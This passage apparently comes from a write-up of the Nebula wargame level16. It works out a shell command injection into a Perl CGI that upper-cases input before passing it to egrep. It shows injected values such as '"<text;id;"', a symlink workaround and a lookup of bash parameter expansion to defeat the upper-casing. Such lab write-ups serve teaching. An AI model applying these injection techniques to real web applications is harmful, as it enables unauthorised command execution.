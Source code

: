 I guess it has to do with not supplying an input file to `egrep` and thus it asks for STDIN input.
```console
level16@nebula:~$ egrep "^"
hello
hello
world
world
^C
```
Yes, `egrep` acts as expected, it defers in echo'ing the input to STDOUT, this is because perl would have printed to STDOUT but I intercepted the shell by pressing `CTRL + C` and the process died before reaching the printing part of the program.

Let's try to feed `egrep` an input file using the redirection symbol (`<`).
```console
level16@nebula:~$ echo "hello world" > text
level16@nebula:~$ egrep "hello"<text
hello world
```
We can reproduce this in our injection, because we don't need a space here.
```console
level16@nebula:~$ perl test.pl
"<text;id;"
egrep "^"<TEXT;ID;"" /home/flag16/userdb.txt 2>&1
sh: TEXT: No such file or directory
sh: ID: command not found
sh: : command not found
```
Okay, we managed to escape the first command and execute `ID`, but because of the upper-case we didn't achieve execution of `id`. The same happened with the file `text`.

We can create a `symlink` for `id` named `ID` to fix this issue.
```console
level16@nebula:~$ whereis id
id: /usr/bin/id /usr/share/man/man1/id.1.gz
level16@nebula:~$ ln -s -T /usr/bin/id ID
level16@nebula:~$ ls -la | grep ID
lrwxrwxrwx 1 level16 level16   11 2021-08-06 05:40 ID -> /usr/bin/id
```
But this is less feasible in the real `CGI`, as it runs in `/home/flag16/` and we have no write permissions there.

Wait, we run shell commands, can we transform uppercase characters to lowercase without calling a command?
```console
level16@nebula:~$ help
GNU bash, version 4.2.10(1)-release (i686-pc-linux-gnu)
...
```
Our shell is `bash`, let's find out if, and how, can we do this.
```console
level16@nebula:~$ man bash
```
```
...
 Parameter Expansion
       The  `$'  character  introduces parameter expansion, command substitution, or arith‐
       metic expansion.  The parameter name or symbol to be expanded  may  be  enclosed  in
       braces,  which  are  optional  but serve to protect the variable to be expanded from
       characters immediately following it which could be interpreted as part of the name.

       When braces are used, the matching ending brace is the first `}' not  escaped  by  a
       backslash  or  within  a quoted string, and not within an embedded arithmetic expan‐
       sion, command substitution, or parameter expansion.

       ${parameter}
              The value of parameter is substituted.  The braces are required when  parame‐
```
